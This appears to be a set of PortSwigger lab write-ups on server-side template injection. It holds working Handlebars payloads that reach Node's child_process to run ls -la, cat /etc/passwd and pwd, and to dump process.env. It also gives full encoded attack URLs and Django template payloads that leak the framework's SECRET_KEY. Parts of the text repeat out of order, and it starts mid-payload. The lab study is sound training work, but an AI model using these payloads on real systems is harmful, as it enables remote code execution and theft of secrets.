20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d:



Execute ls -la:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('ls',['-la']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Url-encode it and get the content with
https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%73%70%61%77%6e%28%27%6c%73%27%2c%5b%27%2d%6c%61%27%5d%29%2e%73%74%64%6f%75%74%2e%6f%6e%28%27%64%61%74%61%27%2c%20%66%75%6e%63%74%69%6f%6e%20%28%64%61%74%61%29%20%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%27%6f%77%6e%27%2b%20%64%61%74%61%29%3b%20%7d%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d:



cat /etc/passwd:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('cat',['/etc/passwd']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



pwd:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('pwd',[' ']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



The solution is directly in
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection...



05 Server-side template injection with information disclosure via user-supplied objects
=======================================================================================

This lab is vulnerable to server-side template injection due to the way an
object is being passed into the template. This vulnerability can be exploited to
access sensitive data.

To solve the lab, steal and submit the framework's secret key.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r

References:

-   https://portswigger.net/web-security/server-side-template-injection/exploiting



It is possible to edit the templates of the posts:



We find there are values calculated with the format "\${product.X}":


Trying to add the payload “{{3\*3}}” generates the following stack trace:



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Traceback (most recent call last):  File "<string>", line 11, in <module>  File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 191, in __init__    self.nodelist = self.compile_nodelist()  File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 230, in compile_nodelist    return parser.parse()  File "/usr/local/lib/python2.7/dist-packages/django/template/base.py", line 486, in parse    raise self.error(token, e)django.template.exceptions.TemplateSyntaxError: Could not parse the remainder: '*3' from '3*3'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Knowing it uses a Django template we can leak debug information with the
payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



There is an element “settings” in Django of type UserSettingsHolder:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{{settings}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



It contains a SECRET_KEY field:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{{settings.SECRET_KEY}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


# 12 - Server-side template injection in an unknown language with a documented exploit

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

---------------------------------------------

References:

- http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

- https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet

---------------------------------------------

Generated link: https://0ab300360386552481b34d2700c600da.web-security-academy.net

The content of the message is reflected in the HTML inside a div element:


Checking with https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message=TEST:


Error with https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message={{7*7}}. It seems it uses Node.js and handlebars:


I will follow: http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

{{this.__proto__}} with https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message={{this.__proto__}}:


Get process.env with:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Url-encode it and get the content with https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%4a%53%4f%4e%2e%73%74%72%69%6e%67%69%66%79%28%70%72%6f%63%65%73%73%2e%65%6e%76%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d:


Execute ls -la:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('ls',['-la']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
``` 

Url-encode it and get the content with https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%73%70%61%77%6e%28%27%6c%73%27%2c%5b%27%2d%6c%61%27%5d%29%2e%73%74%64%6f%75%74%2e%6f%6e%28%27%64%61%74%61%27%2c%20%66%75%6e%63%74%69%6f%6e%20%28%64%61%74%61%29%20%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%27%6f%77%6e%27%2b%20%64%61%74%61%29%3b%20%7d%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d:


cat /etc/passwd:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('cat',['/etc/passwd']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
``` 


pwd:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('pwd',[' ']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```


The solution is directly in https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection...


